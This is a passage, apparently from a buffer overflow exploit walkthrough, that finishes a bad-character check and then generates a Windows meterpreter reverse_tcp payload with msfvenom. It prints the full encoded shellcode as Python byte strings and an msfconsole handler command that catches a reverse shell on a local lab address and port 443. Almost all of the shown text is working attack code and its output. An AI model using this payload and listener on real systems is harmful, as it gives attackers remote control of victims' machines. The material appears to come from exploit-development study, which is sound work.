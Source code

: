0a does not appear so we will count it as a badchar.
Let's generate the payload and start listening once we send the full payload:
```c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.122.211 LPORT=443 -f python -v payload -b "\x00\x0a"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of python file: 2064 bytes
payload =  b""
payload += b"\xd9\xc5\xd9\x74\x24\xf4\xbd\x09\xf4\x52\x1d"
payload += b"\x58\x31\xc9\xb1\x59\x83\xe8\xfc\x31\x68\x15"
payload += b"\x03\x68\x15\xeb\x01\xae\xf5\x64\xe9\x4f\x06"
payload += b"\x1a\x63\xaa\x37\x08\x17\xbe\x6a\x9c\x53\x92"
payload += b"\x86\x57\x31\x07\x1c\x15\x9e\x28\x95\x93\xf8"
payload += b"\x07\x26\x12\xc5\xc4\xe4\x35\xb9\x16\x39\x95"
payload += b"\x80\xd8\x4c\xd4\xc5\xae\x3b\x39\x9b\x67\x4f"
payload += b"\x97\x0c\x03\x0d\x2b\x2c\xc3\x19\x13\x56\x66"
payload += b"\xdd\xe7\xea\x69\x0e\x8c\xbb\x71\x25\xca\x1b"
payload += b"\xd2\x38\x39\xde\x1b\x4e\x81\xa8\x10\x9b\x72"
payload += b"\x1b\xd8\xe5\x52\x6d\xe6\x27\x95\x83\x4a\xa6"
payload += b"\xee\xa4\x72\xdc\x04\xd7\x0f\xe7\xdf\xa5\xcb"
payload += b"\x62\xff\x0e\x9f\xd5\xdb\xaf\x4c\x83\xa8\xbc"
payload += b"\x39\xc7\xf6\xa0\xbc\x04\x8d\xdd\x35\xab\x41"
payload += b"\x54\x0d\x88\x45\x3c\xd5\xb1\xdc\x98\xb8\xce"
payload += b"\x3e\x44\x64\x6b\x35\x67\x73\x0b\xb6\x77\x7c"
payload += b"\x51\x20\xbb\xb1\x6a\xb0\xd3\xc2\x19\x82\x7c"
payload += b"\x79\xb6\xae\xf5\xa7\x41\xa7\x12\x58\x9d\x0f"
payload += b"\x72\xa6\x1e\x6f\x5a\x6d\x4a\x3f\xf4\x44\xf3"
payload += b"\xd4\x04\x68\x26\x40\x0f\xfe\x09\x3c\x75\x2d"
payload += b"\xe1\x3e\x8a\xd0\x49\xb7\x6c\x82\xfd\x97\x20"
payload += b"\x63\xae\x57\x91\x0b\xa4\x58\xce\x2c\xc7\xb3"
payload += b"\x67\xc6\x28\x6d\xdf\x7f\xd0\x34\xab\x1e\x1d"
payload += b"\xe3\xd1\x21\x95\x01\x25\xef\x5e\x60\x35\x18"
payload += b"\x39\x8a\xc5\xd9\xac\x8a\xaf\xdd\x66\xdd\x47"
payload += b"\xdc\x5f\x29\xc8\x1f\x8a\x2a\x0f\xdf\x4b\x1a"
payload += b"\x7b\xd6\xd9\x22\x13\x17\x0e\xa2\xe3\x41\x44"
payload += b"\xa2\x8b\x35\x3c\xf1\xae\x39\xe9\x66\x63\xac"
payload += b"\x12\xde\xd7\x67\x7b\xdc\x0e\x4f\x24\x1f\x65"
payload += b"\xd3\x23\xdf\xfb\xfc\x8b\xb7\x03\xbd\x2b\x47"
payload += b"\x6e\x3d\x7c\x2f\x65\x12\x73\x9f\x86\xb9\xdc"
payload += b"\xb7\x0d\x2c\xae\x26\x11\x65\x6e\xf6\x12\x8a"
payload += b"\xab\x09\x68\xe3\x4c\xea\x8d\xed\x28\xeb\x8d"
payload += b"\x11\x4f\xd0\x5b\x28\x25\x17\x58\x0f\x36\x22"
payload += b"\xfd\x26\xdd\x4c\x51\x38\xf4"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.122.211; set LPORT 443; exploit"

```
